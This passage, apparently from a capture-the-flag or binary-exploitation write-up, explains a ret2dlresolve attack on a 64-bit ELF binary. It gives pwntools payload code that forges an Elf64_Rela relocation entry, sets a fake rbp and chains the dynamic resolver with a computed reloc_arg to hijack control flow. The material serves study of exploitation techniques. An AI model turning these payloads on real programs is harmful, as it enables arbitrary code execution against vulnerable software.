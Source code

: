So the dlresolver and r_offset is in the same address. Because we don't want the JMPREL, SYMTAB and STRTAB structure to be overwriten or it might cause error. And also because dlresolve will use the lower stack address to resolve this so choosing lower address is an great idea. We will use address of `rw_section - 0x50` for both r_offset and dlresolver so the stage 3 will change to this:

```
JMPREL = 0x400300

Elf64_Rela_addr = rw_section + 0x40
reloc_arg = int( (Elf64_Rela_addr - JMPREL) / 24 )

r_offset = p64(rw_section - 0x50)         # Change here
r_info = p64((symbol_number << 32) | 0x7)
# r_addend is null and stack is null already so we don't need to write this, 
# also because we run out of 0x10 bytes we can write
Elf64_Rela_struct = r_offset + r_info
```

And the rbp when writing STRTAB structure become this:

```
# Write STRTAB structure
payload = p64(rw_section - 0x50)         # Fake rbp, write and jump to ret2dlresolve address
payload += p64(mov_rsi_rbp_read)
payload += STRTAB_struct
p.send(payload)
```

Everything is set! Now we will conduct the ret2dlresolve by faking reloc_arg. To do that, we will need 3 things placed on stack: dlresolver address, reloc_arg and return address. The dlresolver address we can get by analize the read@plt:

![analize_read_plt.png](images/analize_read_plt.png)

So the dlresolver address is `0x401000`, the reloc_arg is `632` above and the return address of course is `mov_rsi_rbp_read` because we will need to input something more.

After it writes STRTAB structure and jump to there, it then write to ret2dlresolve stack address and jump to ret2dlresolve address. With everything we have, the payload will look like this:

```
dlresolver = 0x401000
payload = p64(0)                         # Fake rbp
payload += p64(dlresolver)               # Resolve then execute resolved function 
payload += p64(reloc_arg)
payload += p64(mov_rsi_rbp_read)
p.send(payload)
```
